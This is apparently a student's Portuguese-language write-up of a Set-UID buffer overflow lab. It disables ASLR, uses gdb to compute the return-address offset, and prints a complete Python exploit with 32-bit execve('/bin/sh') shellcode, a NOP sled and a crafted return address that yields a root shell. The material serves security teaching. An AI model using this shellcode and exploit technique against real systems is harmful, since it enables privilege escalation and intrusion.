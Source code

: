 # Buffer Overflow Attack Lab (Set-UID Version)

## Setup

- Primeiramente desativamos as contramedidas existentes que dificultariam o nosso ataque.

```Bash
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
```

## Task 1

- Depois de brevemente analiasarmos o funcionamento do Shellcode, compilamos o prgrama `call_shellcode.c` que invoca a versão 32-bit Shellcode ou a versão 64-bit.

- Corremos os binários e em ambas as versões foi executada uma nova shell (`/bin/sh`).

![image](screenshots/LB5_1.png)

## Task 2

- Alteração da variável `L1` para 100+8*7.

- Através do comando `make stack-L1` compilámos o programa vulnerável e tornámo-lo num root-owned Set-UID program. 

## Task 3

- Criámos um ficheiro `badfile` e usámos o `gdb` para fazer debug a `stack-L1-dbg`.

```Bash
$ gdb stack-L1-dbg
gdb-peda$ b bof
Breakpoint 1 at 0x12ad: file stack.c, line 16.
gdb-peda$ run 
...
Breakpoint 1, bof (str=0xffffcf57 ...) at stack.c:16
16 {
gdb-peda$ next
...
20 strcpy(buffer, str);
gdb-peda$ p $ebp
$1 = (void *) 0xffffcaf8
gdb-peda$ p &buffer
$2 = (char (*)[156]) 0xffffca54
gdb-peda$ p/d 0xffffcaf8 - 0xffffca54
$3 = 164
```

- Foi possível registar os seguintes valores para o EBP e o endereço do buffer, respetivamente: 0xffffcaf8 e 0xffffca54. Calculando a diferença entre estes dois valores obtemos, em decimal, 164.

- Obtivemos as informações necessárias e alterámos o ficheiro `exploit.py` para lançar o ataque.

```c
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 300              # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    =  0xffffcb90   # Change this number 
offset = 164 + 4         # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

- O valor do `offset` corresponde a 164 + 4 = 168. Foi necessário adicionar 4 à diferença obtida para se obter o endereço do return address devido à arquitetura do programa utilizado visto que o previous frame pointer se encontra em baixo do return adress. 

- O valor de `start` inserido foi um valor escolhido entre 172 e 517, visto que se estabeleceu que serão copiados 517 bytes para o buffer e que entre as posições 168 à 172 encontra-se o return adress. Escolhemos o 300. 

- O valor do `ret`, por sua vez corresponde à posição exata onde ficará o comando de abertura do shellcode. Obteve-se o ret somando ao endereço base obtido do buffer o valor de start em hexadecimal, sendo este valor 0xffffcb90.

- Após correr `exploit.py`, corremos `stack-L1` executando assim o nosso antaque onde foi lançado uma shell.

![image](screenshots/LB5_2.png)


